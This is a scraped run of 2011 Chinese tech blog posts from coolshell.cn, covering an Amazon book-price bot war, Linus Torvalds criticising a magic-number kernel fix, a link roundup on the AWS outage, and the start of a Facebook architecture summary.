_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=4163&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=1166&amp;eid=44773809%2C44759926%2C44759837%2C44759875%2C31071756%2C31074469%2C31074546%2C44772269%2C44788442%2C44790154%2C44789334&amp;oid=2&amp;psts=ABHeCvigO1Gn4PKcVfwBtRnh8mJcFoFVuktYCMNdYjxbsbD6CCFiNbNamqw5u5EcIN--ejaLeC4USTbzjlsvsXGEqPPqw44%2CABHeCvhRHAMAItzaC47xdaey-wlF2U8I9hZ8Ndq5NUwY2E0N92iMLbnLzWLB-I3q4rVxHttBfj6Rv55xUrLb9CqfnWW7t7ZGls81KBahRn-utbveB-ktTw%2CABHeCvjLAyldkRDNJsxZGvIA5IXfBRfRV17Zz_0cevCDOQB-izXTMX8iBwDH9tFZdtaHQXoz-D251k06G_dygjy0BKMmol0V%2CABHeCviF-ggzUBRYLJ1fugJ1bLVT37fLxl_fmspyF55iTQaAgi2_M8GqKPWm8bQZWLMpSwSV05JtaoOXSHw6BdfdVNs-O08W&amp;pvsid=1981031163105539&amp;tmod=1738974273&amp;uas=3&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F26&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=5&amp;uci=a!5&amp;btvi=5&amp;fsb=1&amp;xpc=6G8Imrl6vh&amp;p=https%3A//coolshell.cn&amp;dtd=2850" data-google-container-id="a!5" data-google-query-id="CI-C4fC99_4CFVBMYAod3FsHFw" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

同样地，在推广新技术方面，现在也有了很多成果。除了角色模型外，事务性内存(这又是一种避免竞争条件，从而避免加锁的方法)正在研究中；CSP 已经有了数个实现（如由 Kent 大学开发，针对 Java 的 [JCSP](http://www.cs.kent.ac.uk/projects/ofa/jcsp/)），同时还有针对 CSP 的模型检证工具；至于 FP，最近因为人们认为 Web 系统的建模可以在函数式编程范式中更好的表达，FP 正在唤起人们的注意。我们缺的只剩下新技术的成功应用范例（实际上，前面的技术并不是没有成功范例，我们缺的是经验能够大规模运用的范例 ），以及一支理解这些技术的程序员大军了。对于这后一条，我甚至想，既然多线程编程唯一”容易”的事情是写代码，何不做出一种工具来让程序员们可以用写顺序程序的思维来在这些新模型中编写程序呢？这样的工具会帮助程序员利用线性程序的思维来理解代码，但是同时又让人注意到自己的改动正在影响系统的哪一部分。如果新模型的代码变得好理解了，也许更多的人会使用它们。

（全文完）

# AMAZON的书为什么卖到了$2000万

#####  [2011年04月28日 ](https://coolshell.cn/articles/4605.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [28 条评论](https://coolshell.cn/articles/4605.html#comments) 24,723 人阅读

最近，Amazon的新闻比较多，除了[Amazon的云平台宕机](https://coolshell.cn/articles/4601.html)外，还有一个被热炒的新闻是在Amazon的书店里，有一本书要买$23,698,655.93美元，相当于1亿5千万人民币（如下图所示），这个事情是由UC Berkeley的生物学家Michael Eisen发现的，然后他在他的博客上写了[一篇文章来说明这个事情](http://www.michaeleisen.org/blog/?p=358)。

这本书是1992年，现在绝版了，生物学家决定上Amazon找一下，结果看到了有两本新书，还有一些二手的，二手书价比较正常，但是那两个新书的价都上了百万。这个生物学家还写了邮件给原作者和原作者开了玩笑。呵呵。


一般人可能就把这个事当成个笑话了，不过，教授就是教授，它还认真的研究了一下为什么会这样。


首先，这个不是Amazon的订价的问题，这是Amazon的第三方商户平台两个商户报价，一个商户叫profnath，另一个商户叫bordeebook。我们的生物学教授观察这两个商户的书价了几天，看到了下面的结果：


从上面的表中，我们可以看到，profnath商户的价格总是bordeebook的99.83%，而bordeebook的总是比profnath的高27.059%，很明显，这两个商户用的是程序在自动定价——“自动竞价”。

- profnath商户想把书买出去，所以，其订价要比最高价要低一些（99.83%），这个很容易理解。
- bordeebook商户为什么要比最高价要高1.27倍呢？合理的解释是，bordeebook并没有这本书，这个商户只是想用更多的选品来吸引买家，这样可以让人觉得他和竞争对手有一样多的选品。所以，他要把价订得高一点，这样就算是被人下单，他可以从别人手里把书买过来，然后再卖给卖家。27%的空间，够他赚了。

因为两个商户订的比例不一样，所以，这两个商户的自动订价系统就成了相互涨价的程序——profnath以差0.17%差价跟上，而bordeebook以27%的幅度甩开，profnth再跟上，bordeebook再甩开……。于是最后的价格就到了$23,698,655.93美金。呵呵。

下面，我说说我的收获——

- **能力**：我非常欣赏这位生物学教授的求甚解的态度，这和[Linus要求其团队成员的能力](https://coolshell.cn/articles/4576.html)如出一辙。赞一个！
- **商业**：从这两个商户的行为看到了一种相反的商业技巧。profnath 和 bordeebook 都是聪明的商家。
- **电商**：自动定价系统可能会成为未来电子商务的一个重要的方向。电子商务还有很多东西可以做啊。
- **程序**：程序设计中需要加上边界条件，最高值和最低值（当然，我能理解为什么这两个商户没有回，因为不同的商品价格差得太大，也许他们也在卖一些几百万的商品）。

最后，这本书的网址在这里《[The Making of a Fly: The Genetics of Animal Design](https://www.amazon.com/gp/offer-listing/0632030488/ref=dp_olp_0?ie=UTF8&redirect=true&qid=1303712892&sr=8-1&condition=all)》，你可以看到价格又在攀升了，昨天我看的是200多美，我写这篇文章此时的价格是近1000美金了。呵呵。

（全文完）

# LINUX 2.6.39-RC3的一个插曲

#####  [2011年04月27日 ](https://coolshell.cn/articles/4576.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [118 条评论](https://coolshell.cn/articles/4576.html#comments) 60,165 人阅读

2011年4月12日，Linux 2.6.39-rc3发布了，Linus Torvalds写了一个[发布邮件](http://thread.gmane.org/gmane.linux.kernel/1124982)，其中包含了一个长长的为这个版本做过贡献的人员名单，这个名单中有很多看上去应该是中国人的名字，我挺为他们感到骄傲的（不知道你是否还记得以前本站的”[Linux是由谁写的](https://coolshell.cn/articles/1360.html)“）。

不过，没过一会，发现了一个bug，经过大家的调查（2.6.38版没有发现这个问题），很快，找到了原因，是因为一个内存地址的问题，一个叫Yinghai Lu的人（看其名字应该是中国人，其邮件是@kernel.org）[找到了原因](http://thread.gmane.org/gmane.linux.kernel/1124982/focus=1126082)—— radeon card使用了一个不正确的内存地址[0xa0000000 – 0xc000000]。Joerg Roedel跟贴说，这个地址超出了4GB的内存，然后他和Alex Deucher聊了一会，觉得不应该是这个问题，因为这个地址应该是GPU的，而不是系统内存的。

好像，Yinghai Lu没有理会他们说的不应该是这个问题，[给出了个fix](http://thread.gmane.org/gmane.linux.kernel/1124982/focus=1126133)：

diff --git a/arch/x86/kernel/aperture_64.c b/arch/x86/kernel/aperture_64.c

index 86d1ad4..3b6a9d5 100644

--- a/arch/x86/kernel/aperture_64.c

+++ b/arch/x86/kernel/aperture_64.c

**@@ -83,7 +83,7 @@** static u32 __init allocate_aperture(void)

​    \* so don't use 512M below as gart iommu, leave the space for kernel

​    \* code for safe

​    */

\-  addr = memblock_find_in_range(0, 1ULL<<32, aper_size, 512ULL<<20);

\+  addr = memblock_find_in_range(0, 1ULL<<32, aper_size, 512ULL<<21);

​    if (addr == MEMBLOCK_ERROR || addr + aper_size > 0xffffffff) {

​     printk(KERN_ERR

​       "Cannot allocate aperture memory hole (%lx,%uK)\n",

看到这个fix，Linus Torvalds不高兴了，他回贴问道：

- 为什么全都是Magic Numbers？
- 为什么0x80000000就那么特殊？
- 为什么我们这样改就行？

还说了这样一句话——


> This kind of “I broke things, so now I will jiggle things randomly until they unbreak” is not acceptable. 这种“我把事搞砸了，就随意地调整直到事情又工作”的方式是不可接受的。

还说，这里即没有说明为什么我们fix在了正确的地方（也没有解释那些Magic Number是什么），也没有回滚那个有问题的patch。还说——

> Don’t just make random changes. There really are only two acceptable models of development: “think and analyze” or “years and years of testing on thousands of machines”. Those two really do work.
>
> 不要乱改。那里只有两个可行的开发模式：“思考和分析” 或是 “数年数年地不断地在几千台机器上测试”。这两个方式才是真正可行的。

当然，Yinghai Lu对[其做了解释](http://thread.gmane.org/gmane.linux.kernel/1124982/focus=1126154)，说我们的确调查过了，老的代码用的内存地址是0x80000000，新的则是用0xa0000000，而0xa0000000不工作。这又引发了 Linus Torvalds 的[不满的回贴](http://thread.gmane.org/gmane.linux.kernel/1124982/focus=1126216)。Linus说——

> Yinghai, we have had this discussion before, and dammit, you need to understand the difference between “understanding the problem” and “put in random values until it works on one machine”.
>
> Yinghai，我们以前谈过这个事，该死的，你真的需要明白“理解一个错误”和“设一个随意的值直到其正常工作”的区别。
>
> There was absolutely _zero_ analysis done. You do not actually understand WHY the numbers matter. You just look at two random numbers, and one works, the other does not. That’s not “analyzing”. That’s just “random number games”.
>
> 这里就根本没有分析。你没有直正的明白**为什么**这些数字能行。你只看了两个随机的数，一个能行，另一个不行。这不是“分析”，这叫“随机数游戏”。
>
> If you cannot see and understand the difference between an actual analytical solution where you _understand_ what the code is doing and why, and “random numbers that happen to work on one machine”, I don’t know what to tell you.
>
> 一个解决方案真正经过分析了那段代码干什么的为什么的，另一个是“随机数字可以让其在一台机器上运转”，如果你不能看到和理解他们之间的不同，那我不知道要和你说什么了。

然后，Linus Torvalds进行了谆谆教导——（相当的受用啊）

> Let me repeat my point one more time.
>
> 让我再一次重复一下我的观点
>
> You have TWO choices. Not more, not less:
>
> 你有两个选择，不多也不少：
>
> – choice #1: go back to the old allocation model. It’s tested. It doesn’t regress. Admittedly we may not know exactly _why_ it works, and it might not work on all machines, but it doesn’t cause regressions (ie the machines it doesn’t work on it _never_ worked on).
>
> – **选择一**：回滚到老的分配模式。那是测试过的。它过了回归测试。诚然，我们也许不知道**为什么**那样能行，并且，即使是那样也不一定能在所有的机器上工作，但是其没有让回归测试有问题（这个代码**永不可能**在不能运行的系统上运行）
>
> And this doesn’t mean “old value for that _one_ machine”. It means “old value for _every_ machine”. So it means we revert the whole bottom-down thing entirely. Not just “change one random number so that the totally different allocation pattern happens to give the same result on one particular machine”.
>
> 这并不代表“老的值只能在一台机器上工作”。这代表“老的值可以工作在每一台机器上”。所以，我们需要回滚整个代码改动。而不只是“为了一个特别的机器去修改一个和以前完全不一样的随机数”。
>
> – Choice #2: understand exactly _what_ goes wrong, and fix it analytically (ie by _understanding_ the problem, and being able to solve it exactly, and in a way you can argue about without having to resort to “magic happens”).
>
> – 选择二：真正搞清楚为什么会错，并且有分析地修改他（理解问题才能真正解决之，并且，只有没有“魔法发生”的时候你才可以来争论）
>
> Now, the whole analytic approach (aka “computer sciency” approach), where you can actually think about the problem without having any pesky “reality” impact the solution is obviously the one we tend to prefer. Sadly, it’s seldom the one we can use in reality when it comes to things like resource allocation, since we end up starting off with often buggy approximations of what the actual hardware is all about (ie broken firmware tables).
>
> 现在，整个分析方法（亦称作“计算机科学”的方法）应该是你可以在没有在外界干扰下真正思考这个问题而得到的解决方案，这很明显是我们推崇的。只有在极罕见地情况下我们可以在有外界干扰下分析这种资源分配的事，因为我们只有了解倒底是什么样的硬件，我们才能最终远离bug（如：错误的固件表）
>
> So I’d love to know exactly why one random number works, and why another one doesn’t. But as long as we do _not_ know the “Why” of it, we will have to revert.
>
> 所以，我希望你能知道为什么一个随机数能行，而另一个不行。只要我们不知道，那么我们就不得和回滚整个改动。
>
> It really is that simple. It’s _always_ that simple.
>
> 这真的是很简单，而且这**一直**是那么简单。
>
> So the numbers shouldn’t be “magic”, they should have real explanations. And in the absense of real explanation, the model that works is “this is what we’ve always done”. Including, very much, the whole allocation order. Not just one random number on one random machine.
>
> 所以，那些数不应该是“magic”的，他们应该有真正的说明。在有真正的说明的情况下，我们的开发模式才会工作。其包括了整个分配顺序。不只是那个在任意机器上的随机数。
>
> Linus

后面的事不用说了。我没有想到Linux 内核组会有像Yinghai这样工作的方式，毕竟这是一个黑客级的开发团队。我个人对这个乱写代码的人执零容忍的态度，不管你干过什么，不管你哪里毕业的，不管你简历怎么样，不求甚解随意写代码的人我无法接受。我不知道Yinghai Lu会怎么样想，他/她会像我在“[程序员那些悲催的事儿](https://coolshell.cn/articles/3980.html)”中谈我经历那样知耻而后勇吗？能得到Linus的教导真是一件很不错的事。虽然，Linus教导的这些东西，都应该是程序员最最最基本的技能。**fix bug一定要fix在root cause上啊**，**了解一个问题，不但要知其然，还要知其所以然啊**，这都是老生长谈了。本站有很多提高程序员能力的文章，比如，[这篇](https://coolshell.cn/articles/222.html)，[这篇](https://coolshell.cn/articles/1007.html)，还有[这篇](https://coolshell.cn/articles/2606.html)。

各位朋友，我真心希望你能从这个小插曲中明白点什么。

**—– 更新2011/04/27**—–

从本贴的回复中可以看到有朋友说如果时间紧，没有办法只能在不求甚解的地去fix bug，因为老板催。我认为这是老板的“急功近利”的问题。我想和大家说一下，你得想清楚你属于下面那种人：

1. 你的老板给你压力，让你不得不乱fix，
2. 你认同只要时间紧bug是可以乱fix的。

如果你属于1），那我觉得还情由可原，这是管理问题。但这不能成为你对乱fix bug的理由。一般这种问题怎么解决：**首先，给一个hot fix去救火，然后，有时间去调查root cause，最后经过分析和测试，给出一个final 的 offical fix**。这就是应急的做法，根本不存在什么可以乱fix bug的做法。

如果你属于2），那么我只能“过激”地说你没有成为程序员的资质！

另外，**快速地fix bug，并不等于，不求甚解的fix bug**。大家不要把这两件事等同。

 关于AMAZON云宕机的网贴收集

#####  [2011年04月27日 ](https://coolshell.cn/articles/4601.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [11 条评论](https://coolshell.cn/articles/4601.html#comments) 13,515 人阅读

最近，互联网上最大的事可能是Amazon的AWS宕机了，而且好几天都没有完全恢复。整个Internet都在讨论这个事，Internet很不高兴，后果可能很严重。可能是因为这个事件对中国没有影响，所以中文这边相关的文章不多，大家可以参考一下和讯网的这篇《[伤不起！亚马逊史前最大宕机事件的启示](http://tech.hexun.com/2011-04-24/128998619.html)》。

国外有人把所有和这个事件相关的贴子都收集了起来，都是一些相当不错的贴子和文章，尤其是一些经验教训的贴子，很受教，转给大家看看。这个贴子的[来源在这里](http://highscalability.com/blog/2011/4/25/the-big-list-of-articles-on-the-amazon-outage.html)。

<iframe id="aswift_2" name="aswift_2" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=1507542459&amp;adf=3062625510&amp;pi=t.aa~a.425447425~i.3~rp.4&amp;daaos=1684211763192&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684194544&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4601.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChAI8NOMowYQtrqL5uuD-o59EjkAVlC_xpShDvXBYbrsv7uGvfpY51e3CJqVVIdETl9kptNCOJVGAX4gzrp1-C9CLGgkyNfY-OwNmFo&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684225323773&amp;bpp=1&amp;bdt=5404&amp;idt=1&amp;shv=r20230511&amp;mjsv=m202305110101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D0d07f49f6b8dcf9c-226d50db32df00c0%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_MbGz6cUxfOPuJyOTj4KW8uTxBkCSQ&amp;gpic=UID%3D0000098b1620714e%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_Mb6545bwWtW6AyFc5mZPtSLxS_LXw&amp;prev_fmts=0x0%2C1200x280%2C1447x764&amp;nras=4&amp;correlator=663637810925&amp;frm=20&amp;pv=1&amp;ga_vid=595882335.1684225301&amp;ga_sid=1684225301&amp;ga_hid=1768865214&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=987&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=0&amp;eid=44759876%2C44759837%2C44773809%2C44759927%2C31074199%2C31074635%2C44788442%2C44789923&amp;oid=2&amp;psts=ABHeCvhnKvtmpuBnBqvmNCGhpWy-7vLGPDZl5ZkNMf3Rn4vEH-5if4xOonShEkI8RYMw62fmhiUir3ZK7uef&amp;pvsid=2507499070728607&amp;tmod=182273927&amp;uas=0&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F27&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=3&amp;uci=a!3&amp;btvi=1&amp;fsb=1&amp;xpc=bC1RiKFVJu&amp;p=https%3A//coolshell.cn&amp;dtd=2678" data-google-container-id="a!3" data-google-query-id="CIi076K0-f4CFQ4CrQYdXBEFvQ" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

目录


[个别公司的经历，有好有坏](https://coolshell.cn/articles/4601.html#个别公司的经历，有好有坏)[Amazon Web Services 讨论区](https://coolshell.cn/articles/4601.html#Amazon_Web_Services_讨论区)[总结](https://coolshell.cn/articles/4601.html#总结)[立场：这是用户的错](https://coolshell.cn/articles/4601.html#立场：这是用户的错)[立场：这是Amazon的错](https://coolshell.cn/articles/4601.html#立场：这是Amazon的错)[教训和启示](https://coolshell.cn/articles/4601.html#教训和启示)[Vendor很生气](https://coolshell.cn/articles/4601.html#Vendor很生气)

#### 个别公司的经历，有好有坏

- [How Heroku Survived the Amazon Outage](https://status.heroku.com/incident/151) on the Heroku status page

- [How SimpleGeo Stayed Up During the AWS Downtime](http://developers.simplegeo.com/blog/2011/04/26/how-simplegeo-stayed-up/) by Mike Malone

- [How SmugMug survived the Amazonpocalypse](http://don.blogs.smugmug.com/2011/04/24/how-smugmug-survived-the-amazonpocalypse) by Don MacAskill ([Hacker News](http://news.ycombinator.com/item?id=2480763) discussion)

- [How Bizo survived the Great AWS Outage of 2011 relatively unscathed…](http://dev.bizo.com/2011/04/how-bizo-survived-great-aws-outage-of.html) by Someone at Bizo

- [Joe Stump’s explanation](http://www.focus.com/questions/information-technology/amazon-ec2-has-gone-down--what-would-prefered-hosting-be/#comment43192) of how SimpleGeo survived

- [How Netflix Survived the Outage](http://www.slideshare.net/adrianco/netflix-in-the-cloud-2011)

- [Why Twilio Wasn’t Affected by Today’s AWS Issues](http://www.twilio.com/engineering/2011/04/22/why-twilio-wasnt-affected-by-todays-aws-issues/) on Twilio Engineering’s Blog ([Hacker News](http://news.ycombinator.com/item?id=2472999) thread)

- [On reddit’s outage](http://www.reddit.com/r/announcements/comments/gva4t/on_reddits_outage/#)

- [What caused the Quora problems/outage in April 2011?](https://www.quora.com/Quora-Outage-April-21-22-2011/What-caused-the-Quora-problems-outage-in-April-2011)

- Recovering from Amazon cloud outage

   

  by Drew Engelson of PBS.

  - PBS was affected for a while primarily because we do use EBS-backed RDS databases. Despite being spread across multiple availability-zones, we weren’t easily able to launch new resources ANYWHERE in the East region since everyone else was trying to do the same. I ended up pushing the RDS stuff out West for the time being. [From Comment](http://don.blogs.smugmug.com/2011/04/24/how-smugmug-survived-the-amazonpocalypse/#comment-4737)


#### Amazon Web Services 讨论区

有一些有经验的人共享了很多相当不错的宕机的经历。

- [Amazon Web Services Discussion Forum](https://forums.aws.amazon.com/forum.jspa?forumID=30&start=0)
- [Cost-effective backup plan from now on?](https://forums.aws.amazon.com/thread.jspa?threadID=65860&tstart=0)
- [Life of our patients is at stake – I am desperately asking you to contact](https://forums.aws.amazon.com/thread.jspa?threadID=65649&tstart=0)
- [Why did the EBS, RDS, Cloudformation, Cloudwatch and Beanstalk all fail?](https://forums.aws.amazon.com/thread.jspa?threadID=65897&tstart=0)
- [Moved all resources off of AWS](https://forums.aws.amazon.com/thread.jspa?threadID=65896&tstart=0)
- [Any success stories?](https://forums.aws.amazon.com/forum.jspa?forumID=30&start=300)
- [Is the mass exodus from East going to cause demand problems in the West?](https://forums.aws.amazon.com/thread.jspa?threadID=65784&tstart=25)
- [Finally back online after about 71 hours](https://forums.aws.amazon.com/thread.jspa?threadID=65828&tstart=25)
- [Amazon EC2 features vs windows azure](https://forums.aws.amazon.com/thread.jspa?threadID=65834&tstart=25)
- [Aren’t Availability Zones supposed to be “insulated from failures”?](https://forums.aws.amazon.com/thread.jspa?threadID=65221&tstart=25)
- [What a lot of people aren’t realizing about the downtime:](https://forums.aws.amazon.com/thread.jspa?threadID=65850&tstart=0)
- [ELB CNAME](https://forums.aws.amazon.com/thread.jspa?threadID=32044&tstart=50&start=150)
- [Availability Zones were used in a misleading manner](https://forums.aws.amazon.com/thread.jspa?threadID=65457&tstart=425)
- [Tip: How to recover your instance](https://forums.aws.amazon.com/thread.jspa?threadID=65371&tstart=325)
- [Crying in Forum Gets Results, Silver-level AWS Premium Support Doesn’t](https://forums.aws.amazon.com/thread.jspa?threadID=65617&tstart=325)
- [Well-worth reading: “design for failure” cloud deployment strategy](https://forums.aws.amazon.com/thread.jspa?threadID=65780&tstart=25)
- [New best practice](https://forums.aws.amazon.com/thread.jspa?threadID=65749&tstart=25)
- [Don’t bother with Premium Support](https://forums.aws.amazon.com/thread.jspa?threadID=65136&tstart=475)
- [Best practices for multi-region redundancy](https://forums.aws.amazon.com/thread.jspa?threadID=65185&tstart=450)
- “[Postmortum](https://forums.aws.amazon.com/thread.jspa?threadID=65450&tstart=175)“
- [Learning from this case](https://forums.aws.amazon.com/thread.jspa?threadID=65513&tstart=125)
- [Amazon, still no instructions what to do?](https://forums.aws.amazon.com/thread.jspa?threadID=65388&tstart=525)
- [Anyone else prepared for an all-nighter?](https://forums.aws.amazon.com/thread.jspa?threadID=65338&tstart=550)
- [Is Jeff Bezos going to give a public statement?](https://forums.aws.amazon.com/thread.jspa?threadID=65811&tstart=100)
- [Rackspace, GoGrid, StormonDemand and Others](https://forums.aws.amazon.com/thread.jspa?threadID=65857&tstart=100)
- [Jeff Barr, Werner Vogels and other AWS persons – where have you been???](https://forums.aws.amazon.com/thread.jspa?threadID=65815&tstart=150)
- [After you guys fix EBS do I have do anything on my side?](https://forums.aws.amazon.com/thread.jspa?threadID=65168&tstart=175)
- [Need Help!!! Lives of people and billions in revenue are at risk now!!!](https://forums.aws.amazon.com/thread.jspa?threadID=65765&tstart=225)
- [I’ve Got A Suspicion](https://forums.aws.amazon.com/thread.jspa?threadID=65678&tstart=275)
- [Farewell EC2, Farewell](https://forums.aws.amazon.com/thread.jspa?threadID=65585&tstart=325)

There were also many many instances of support and help in the log.

#### 总结

- [Amazon EC2 outage: summary and lessons learned](http://blog.rightscale.com/2011/04/25/amazon-ec2-outage-summary-and-lessons-learned/) by RightScale
- [AWS outage timeline & downtimes by recovery strategy](http://www.randomhacks.net/articles/2011/04/25/aws-outage-timeline-and-recovery-strategy-downtimes) by Eric Kidd
- [The Aftermath of Amazon’s Cloud Outage](http://www.datacenterknowledge.com/archives/2011/04/25/the-aftermath-of-amazons-cloud-outage) by Rich Miller

#### 立场：这是用户的错

- [So Your AWS-based Application is Down? Don’t Blame Amazon](http://www.thestoragearchitect.com/2011/04/22/so-your-aws-based-application-is-down-dont-blame-amazon/) by The Storage Architect
- [The Cloud is not a Silver Bullet](http://stu.mp/2011/04/the-cloud-is-not-a-silver-bullet.html) by Joe Stump ([Hacker News](http://news.ycombinator.com/item?id=2482581) thread)
- [The AWS Outage: The Cloud’s Shining Moment](http://broadcast.oreilly.com/2011/04/the-aws-outage-the-clouds-shining-moment.html) by George Reese ([Hacker News](http://news.ycombinator.com/item?id=2477540) discussion)
- [Failing to Plan is Planning to Fail](http://blog.acrowire.com/cloud-computing/failing-to-plan-is-planning-to-fail) by Ted Theodoropoulos
- [Get a life and build redundancy/resiliency in your apps](https://groups.google.com/group/cloud-computing/browse_thread/thread/e8079a54e6a8c4b9/72756bf9e587869d?show_docid=72756bf9e587869d) on the Cloud Computing group

#### 立场：这是Amazon的错

- [Stop Blaming the Customers – the Fault is on Amazon Web Services](http://www.readwriteweb.com/cloud/2011/04/almost-as-galling-as-the.php) by Klint Finley
- [AWS is down: Why the sky is falling](http://justinsb.posterous.com/aws-down-why-the-sky-is-falling) by Justin Santa Barbara ([Hacker News](http://news.ycombinator.com/item?id=2471899) thread)
- [Amazon Web Services are down](http://news.ycombinator.com/item?id=2469838) – Huge Hacker News thread

#### 教训和启示

- [People Using Amazon Cloud: Get Some Cheap Insurance At Least](http://smoothspan.wordpress.com/2011/04/23/people-using-amazon-cloud-get-some-cheap-insurance-at-least/) by Bob Warfield
- [Basic scalability principles to avert downtime](http://ronaldbradford.com/blog/basic-scalability-principles-to-avert-downtime-2011-04-23) by Ronald Bradford
- [Amazon crash reveals ‘cloud’ computing actually based on data centers](http://www.itworld.com/cloud-computing/158517/amazon-crash-reveals-cloud-computing-actually-based-data-centers) by Kevin Fogarty
- [Seven lessons to learn from Amazon’s outage](https://www.zdnet.com/blog/saas/seven-lessons-to-learn-from-amazons-outage/1296) By Phil Wainewright
- [The Cloud and Outages : Five Key Lessons](http://www.cloudsigma.com/en/blog/2011/04/23/21-cloud-outages-lessons-learned) by Patrick Baillie ([Cloud Computing Group](https://groups.google.com/group/cloud-computing/browse_thread/thread/6e9549afbff6386f/05919d8527c69a09?show_docid=05919d8527c69a09#) discussion)
- [Some thoughts on outages](http://till.klampaeckel.de/blog/archives/151-Some-thoughts-on-outtages.html) by Till Klampaeckel
- [Amazon.com’s real problem isn’t the outage, it’s the communication](http://www.geekwire.com/2011/amazoncoms-real-problem-outage-communication) by Keith Smith
- [How to work around Amazon EC2 outages](http://webmonkeyuk.wordpress.com/2011/04/21/how-to-work-around-amazon-ec2-outages/) by James Cohen ([Hacker News](http://news.ycombinator.com/item?id=2471258) thread)
- [Today’s EC2 / EBS Outage: Lessons learned](http://agilesysadmin.net/ec2-outage-lessons) on Agile Sysadmin
- [Amazon EC2 has gone down -what would a prefered hosting platform be?](http://www.focus.com/questions/information-technology/amazon-ec2-has-gone-down--what-would-prefered-hosting-be/) on Focus
- [Single Points of Failure](http://cloudability.com/single-points-of-failure) by Mat
- [Coping with Cloud Downtime with Puppet](http://www.reddit.com/r/programming/comments/gvac7/coping_with_cloud_downtime_with_puppet/)
- [Amazon Outage Concerns Are Overblown](http://timcrawford.org/2011/04/21/amazon-outage-concerns-are-overblown/) by Tim Crawford
- [Where There Are Clouds, It Sometimes Rains](http://claylo.com/post/4817029650/where-there-are-clouds-it-sometimes-rains) by Clay Loveless
- [Availability, redundancy, failover and data backups at LearnBoost ](http://blog.learnboost.com/blog/availability-redundancy-and-failover-at-learnboost/)by Guillermo Rauch
- [Cloud hosting vs colocation](http://chrischandler.name/the-real-cost-of-cloud-hosting) by Chris Chandler ([Hacker News](http://news.ycombinator.com/item?id=2482123) thread)
- [Amazon’s EC2 & EBS outage](http://arnon.me/2011/04/amazons-ec2-ebs-outage/) by Arnon Rotem-Gal-Oz

#### Vendor很生气

- [Amazon Outage Proves Value of Riak’s Vision](http://www.productionscale.com/home/2011/4/22/on-clouds-and-spofs-or-the-great-aws-outage-of-april-2011.html#axzz1KZPTwX4z) by Basho
- [Magical Block Store: When Abstractions Fail Us](http://joyeur.com/2011/04/24/magical-block-store-when-abstractions-fail-us/) by Mark Joyent ([Hacker News](http://news.ycombinator.com/item?id=2479613) discussion)
- [On Cascading Failures and Amazon’s Elastic Block Store](http://joyeur.com/2011/04/22/on-cascading-failures-and-amazons-elastic-block-store/) by Jason
- [An unofficial EC2 outage postmortem – the sky is not falling](http://cloudharmony.com/b/2011/04/unofficial-ec2-outage-postmortem-sky-is.html) from CloudHarmony

（全文完）

# FACEBOOK 的系统架构

#####  [2011年04月25日 ](https://coolshell.cn/articles/4549.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [49 条评论](https://coolshell.cn/articles/4549.html#comments) 42,891 人阅读

**来源**：[http://www.quora.com/What-is-Facebooks-architecture](https://www.quora.com/What-is-Facebooks-architecture) （由[Micha?l Figuière](https://www.quora.com/Michaël-Figuière)回答）

根据我现有的阅读和谈话，我所理解的今天Facebook的架构如下：

- Web 前端是由 PHP 写的。Facebook 的 [HipHop ](http://developers.facebook.com/blog/post/358)[1] 会把PHP转成 C++ 并用 g++编译，这样就可以为模板和Web逻贺业务层提供高的性能。

- 业务逻辑以Service的形式存在，其使用[Thrift ](http://thrift.apache.org/)[2]。这些Service根据需求的不同由PHP，C++或Java实现（也可以用到了其它的一些语言……）

- 用Java写的Services没有用到任何一个企业级的应用服务器，但用到了Facebook自己的定制的应用服务器。看上去好像是重新发明轮子，但是这些Services只被暴露给Thrift使用（绝大所数是这样），Tomcat太重量级了，即使是Jetty也可能太过了点，其附加值对Facebook所需要的没有意义。

